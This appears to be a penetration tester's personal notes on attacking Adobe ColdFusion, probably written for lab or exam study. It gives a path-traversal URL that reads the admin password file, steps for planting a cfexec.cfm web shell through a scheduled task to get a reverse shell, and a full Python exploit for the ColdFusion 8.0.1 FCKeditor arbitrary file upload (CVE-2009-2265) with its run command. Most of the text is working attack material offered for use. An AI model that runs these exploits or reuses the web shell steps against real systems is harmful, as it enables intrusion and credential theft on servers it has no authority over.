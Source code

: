 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Resources

https://pentest.tonyng.net/attacking-adobe-coldfusion/

http://dronesec.pw/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/

https://github.com/hatRiot/clusterd/blob/master/src/platform/coldfusion/deployers/lfi_stager.py

https://www.exploit-db.com/exploits/27755

---

#### ColdFusion Password attack
```
http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#Sha1]]

#### Admin page reverse shell
Find the local path: mappings
![[Pasted image 20220613153218.png]]

Debugging & Logging > Scheduled Tasks > Schedule New Task

```
cp /usr/share/webshells/cfm/cfexec.cfm .
```

OR 

create a malicious jsp and follow similar steps! >>>

![[0._Reverse shells (WEB)#jsp]]

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Provide Task Name.
For Frequency, set for just a few minutes in advance from current time.

**MAKE SURE TO  CHECK THE PUBLISH BOX!**

For file path, use the path found from mappings page: `C:\Inetpub\wwwroot\CFIDE\cfexec.cfm`

![[Pasted image 20220613154728.png]]

After hitting submit, can run tasks right away (Green button), then visit exploit to launch.

`http://$TARGET:/CFIDE/cfexe.cfm`

[[1._Reverse Shells (WIN)#Stageless Payloads]]

[[4._File Transfers]]

![[Pasted image 20220613155208.png]]

[[rlwrap]]

#### ColdFusion 8 FileUpload

https://forum.hackthebox.com/t/python-coldfusion-8-0-1-arbitrary-file-upload/108

FileUpload.py
```python - kali
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/coldfusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265 
# 
# Description: 
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys

try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
    sys.exit(-1)

basepath = "http://" + ip + ":" + port + path

print 'Sending payload...'

try:
    req = requests.post(basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploit.jsp%00", files={'newfile': ('exploit.txt', body, 'application/x-java-archive')}, timeout=30)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploit.jsp'
    else:
        print 'Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
```

![[0._Reverse shells (WEB)#jsp]]

![[rlwrap]]

```bash - kali
python FileUpload.py $TARGET 8500 shell.jsp 
```


---

